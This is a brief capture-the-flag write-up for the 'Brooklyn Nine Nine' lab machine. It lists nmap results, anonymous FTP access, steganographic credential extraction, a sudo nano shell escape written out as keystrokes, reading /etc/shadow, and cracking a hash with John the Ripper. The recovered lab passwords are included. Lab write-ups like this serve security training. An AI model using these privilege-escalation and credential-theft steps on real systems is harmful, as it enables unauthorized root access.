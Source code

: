 # Brooklyn Nine Nine CTF

## nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running: Crestron 2-Series
OS CPE: cpe:/o:crestron:2_series
OS details: Crestron XPanel control system
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enum
- Login with anonymous accesss to ftp
- Retrieve note_to_jake.txt which tells Jake that his password is weak (ssh I assume)
- Run stegseek on the image from the website, retrieve holts ssh credentials `fluffydog12@ninenine`

## Foothold
- Login as holt with the password found on ssh
- Find that he can run nano with sudo
- GTFO bin it:
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

## Finding jakes password by reading /etc/shadow
- Cracking the hash with johntheripper `987654321`